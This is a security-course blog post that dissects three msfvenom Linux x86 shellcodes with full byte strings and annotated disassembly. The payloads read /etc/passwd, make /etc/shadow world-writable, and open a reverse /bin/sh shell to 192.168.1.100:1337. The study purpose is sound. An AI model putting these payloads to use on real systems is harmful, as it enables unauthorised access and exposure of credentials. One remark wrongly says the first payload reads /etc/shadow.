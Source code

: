 ```yaml
---
layout: post
title: SLAE 0x5 - Analyze at least 3 shellcode from msfpayload linux/x86
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to demonstrate Linux shellcoding knowledge by analyzing 3 different shellcode from msfpayload/msfvenom linux/x86 category.

# Methods

I used radare2 with Cutter to analyze the shellcode and display the graph call. No other tools or debuggers were harmed during the process.

# linux/x86/read_file

Simple payload that reads up to 4096 bytes from a file and writes it out onto stdout.

    root@kali:~# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 73 bytes
    Final size of c file: 331 bytes
    unsigned char buf[] = 
    "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
    "\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
    "\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
    "\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
    "\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

As this shellcode doesn't do a lot of things, it's both simple and small in size. By default msfvenom tries to read /etc/shadow, which so I left it as is. The shellcode relies on JMP-CALL-POP to push */etc/shadow* on the stack, then it starts executing the main part of the shellcode. First it calls SYS_OPEN on /etc/passwd which returns a file descriptor. Using the file descriptor, SYS_READ reads up to 4096 bytes from the file and pushes it onto the stack. The syscall also returns the actual number of bytes read, which the SYS_WRITE call uses later to read the exact number of bytes from the stack. Finally, the shellcode uses SYS_EXIT to gracefully quit.

    / (fcn) fcn.00000000 20
    |   fcn.00000000 ();
    |       ,=< 0x00000000      jmp 0x38 ; jmp to set up /etc/passwd
    / (fcn) fcn.00000002 72
    |   fcn.00000002 ();
    |       |   0x00000002      mov eax, 5 ; sys_open
    |       |   0x00000007      pop ebx ; address of "/etc/passwd"
    |       |   0x00000008      xor ecx, ecx ; null out ECX
    |       |   0x0000000a      int 0x80 ; sys_open - returns file descriptor for file
    |       |   0x0000000c      mov ebx, eax ; move file descriptor into ebx
    |       |   0x0000000e      mov eax, 3 ; sys_read
    |       |   0x00000013      mov edi, esp ; moves stack pointer into edi
    |       |   0x00000015      mov ecx, edi ; moves stack pointer into ecx
    |       |   0x00000017      mov edx, 0x1000 ; size_t count: 4096 bytes max
    |       |   0x0000001c      int 0x80 ; sys_read - attempts to read 4096 bytes onto the stack and returns the number of bytes read
    |       |   0x0000001e      mov edx, eax ; number of read bytes => size_t count
    |       |   0x00000020      mov eax, 4 ; sys_write
    |       |   0x00000025      mov ebx, 1 ; 0x1 stdout
    |       |   0x0000002a      int 0x80 ; sys_write - write EDX number of bytes from the stack to stdout
    |       |   0x0000002c      mov eax, 1 ; sys_exit
    |       |   0x00000031      mov ebx, 0 ; 0x0 error code
    |       |   0x00000036      int 0x80 ; sys_exit
    |       `-> 0x00000038      call 2 ; call part of jmp-call-pop
    |           0x0000003d      das    ; /etc/passwd

**Graph:**

![linux/x86/read_file graph]({{"/content/posts/slae/msfvenom-readpasswd.png" | absolute_url }}){: .center}

# linux/x86/chmod

This shellcode changes the permission settings for a target file. The default setting is to change the permissions of /etc/shadow to 0666.

    root@kali:~# msfvenom -p linux/x86/chmod -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 36 bytes
    Final size of c file: 177 bytes
    unsigned char buf[] = 
    "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
    "\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
    "\x80\x6a\x01\x58\xcd\x80";

As there is a syscall for chmod (SYS_CHMOD), this shellcode is rather simple. The shellcode pushes /etc/shadow and the required arguments onto the stack, does the syscall and quits gracefully with the SYS_EXIT call.

    / (fcn) fcn.00000000 36
    |   fcn.00000000 ();
    |           0x00000000      cdq    ; sets EDX 0 if EAX is positive
    |           0x00000001      push 0xf ; 15 ; 15 - sys_chmod
    |           0x00000003      pop eax ; sys_chmod
    |           0x00000004      push edx ; push 0x0
    |           0x00000005      call 0x16 ; pushes /etc/shadow address on the stack
    |           0x0000000a      das    ; /etc/shadow
    |       ,=< 0x0000000b      je 0x71 ; data
    |       |   0x0000000e      das    ; data
    |      ,==< 0x0000000f      jae 0x79 ; data
    |      ||   0x00000011      popal  ; data
    |      ||   0x00000012           .byte 0x64 ; data
    |      ||   0x00000013      outsd dx, dword [esi] ; data
    |      ||   0x00000014      ja 0x16 ; data
    |      ||   0x00000016      pop ebx ; pops /etc/shadow address into ebx
    |      ||   0x00000017      push 0x1b6 ; 438 ; octal 0666
    |      ||   0x0000001c      pop ecx ; mode_t mode
    |      ||   0x0000001d      int 0x80 ; sys_chmod
    |      ||   0x0000001f      push 1 ; 1 ; sys_exit
    |      ||   0x00000021      pop eax ; sys_exit => eax
    \      ||   0x00000022      int 0x80 ; sys_exit


**Graph:**

![linux/x86/chmod graph]({{"/content/posts/slae/msfvenom-chmod.png" | absolute_url }}){: .center}

# linux/x86/shell_reverse_tcp 

This shellcode connects to a host on a given TCP port and opens a /bin/sh shell.

    root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -f c LHOST=192.168.1.100 LPORT=1337
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 68 bytes
    Final size of c file: 311 bytes
    unsigned char buf[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x64\x68"
    "\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

This shellcode is very similar to the one I did in Assignment 2, but the order of the syscalls is different. First the code creates a socket with SYS_SOCKETCALL-SYS_SOCKET and connects it to stdin, stdout and stderr with DUP2. After these are done, SYS_SOCKETCALL-SYS_CONNECT connects to the remote address and then the code invokes a /bin/sh shell. Other than the different order, it's basically the same workflow as the shellcode in SLAE0x2.

        / (fcn) fcn.00000000 68
    |   fcn.00000000 ();
    |           0x00000000      xor  ebx, ebx ; EBX = 0x00
    |           0x00000002      mul  ebx ; EBX * EAX => EAX = 0x00
    |           0x00000004      push ebx ; any protocol
    |           0x00000005      inc  ebx ; 0x1 - SYS_SOCKET
    |           0x00000006      push ebx ; 0x1 SOCK_STREAM
    |           0x00000007      push 2 ; 2 ; 0x2 AF_INET
    |           0x00000009      mov  ecx, esp ; call args
    |           0x0000000b      mov  al, 0x66 ; 'f' ; 102 ; sys_socketcall
    |           0x0000000d      int  0x80 ; SYS_SOCKETCALL -> SYS_SOCKET
    |           0x0000000f      xchg eax, ebx ; move file descriptor into EBX
    |           0x00000010      pop  ecx ;  call args
    |       .-> 0x00000011      mov  al, 0x3f ; '?' ; 63 ; dup2
    |       :   0x00000013      int  0x80 ; SYS_DUP2
    |       :   0x00000015      dec  ecx ; 0x2 - stderr, 0x1 - stdout, 0x0 - stdin
    |       `=< 0x00000016      jns  0x11 ; jmp if sign is positive
    |           0x00000018      push 0x6401a8c0 ; 100 1 168 192 (decimal)
    |           0x0000001d      push 0x39050002 ; 0x3905 - 1337 0x0 0x2 - AF_INET
    |           0x00000022      mov  ecx, esp ; function args
    |           0x00000024      mov  al, 0x66 ; 'f' ; 102 ; SYS_SOCKETCALL
    |           0x00000026      push eax ; 0x1
    |           0x00000027      push ecx ; function args
    |           0x00000028      push ebx ; file descriptor
    |           0x00000029      mov  bl, 3 ; 0x3 - SYS_CONNECT
    |           0x0000002b      mov  ecx, esp
    |           0x0000002d      int  0x80 ; SYS_SOCKETCALL -> SYS_CONNECT
    |           0x0000002f      push edx ; 0x0
    |           0x00000030      push 0x68732f6e ; 'n/sh'
    |           0x00000035      push 0x69622f2f ; '//bi'
    |           0x0000003a      mov  ebx, esp ; //bin/sh0x00
    |           0x0000003c      push edx ; 0x0
    |           0x0000003d      push ebx ; file descriptor
    |           0x0000003e      mov  ecx, esp ; address of //bin/sh, 0x00
    |           0x00000040      mov  al, 0xb ; 11 ; SYS_EXECVE
    \           0x00000042      int  0x80 ; SYS_EXECVE //bin/sh


**Graph:**

![linux/x86/shell_reverse_tcp graph]({{"/content/posts/slae/msfvenom-reversetcp.png" | absolute_url }}){: .center}

# Final Thoughts

A great little challenge, it was awesome to finally understand how some of the basic msfvenom shellcodes work. After looking at them, I feel that I would probably use them later instead of larger payloads.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).